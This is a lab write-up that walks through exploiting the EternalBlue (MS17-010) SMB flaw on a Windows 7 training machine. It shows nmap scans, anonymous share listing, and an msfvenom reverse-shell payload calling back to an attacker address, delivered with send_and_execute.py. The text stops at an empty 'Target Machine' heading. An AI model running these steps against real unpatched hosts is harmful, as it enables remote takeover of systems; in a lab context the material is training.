





# Enumeration:

```bash
# Nmap 7.92 scan initiated Sun Jul 17 20:57:23 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.073s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008
OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
OS details: Microsoft Windows Server 2008 SP1
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-18T00:59:53
|_  start_date: 2022-07-17T19:07:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-18T01:59:52+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   71.60 ms 10.10.14.1
2   71.60 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 17 20:59:59 2022 -- 1 IP address (1 host up) scanned in 156.04 seconds
```
</br>

Nmap vulnerabilities scan: ```nmap -sS -p139,445 -Pn 10.10.10.40 -v --script vuln``` </br>
 </br>
**Initial Shell:** </br>
 EternalBlue is a SMB exploit, to determine whether we can actually exploit it with anonymous authentication, we will try to connect anonymously with this command: </br>
```smbclient -L \\10.10.10.40``` </br>
As we can see it has listed the shares without having an authenticated username and password. </br>
First I used [checker.py](https://github.com/worawit/MS17-010/blob/master/checker.py) to find the accessible named pipe: </br>
 </br>
Because guest authentication was allowed, I had to modify the exploit and checker.py file: </br>
 </br>
``//`` - recognized as a guest. </br>
I could see that it is a x64 architecture machine, and I could see that I found some named pipes I could use. </br>
**Generate the Payload:** </br>
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 EXITFUNC=thread -f exe  --platform windows -o reverseshell.exe``` </br>
**Exploit:** </br>
**Kali Linux** </br>
Command: ```python2 send_and_execute.py 10.10.10.40 reverseshell.exe samr``` </br>
 </br> </br>
**Target Machine:** </br>



